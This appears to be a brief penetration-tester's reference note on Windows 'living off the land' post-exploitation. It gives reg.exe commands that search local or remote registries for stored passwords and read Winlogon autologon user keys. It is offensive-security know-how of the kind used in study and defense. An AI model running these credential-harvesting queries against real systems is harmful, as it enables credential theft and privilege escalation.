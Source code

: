 # Living off the Land

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #living-off-the-land #windows

```
C:\> reg.exe query [\\<IP>\]HKLM /f password /t REG_SZ /s

C:\> reg.exe query [\\<IP>\]HKCU /f password /t REG_SZ /s

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg.exe query "[\\<IP>\]HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername [/reg:<32 | 64>]
```

---
## References

- [[Autologon|AutoLogon Registry]]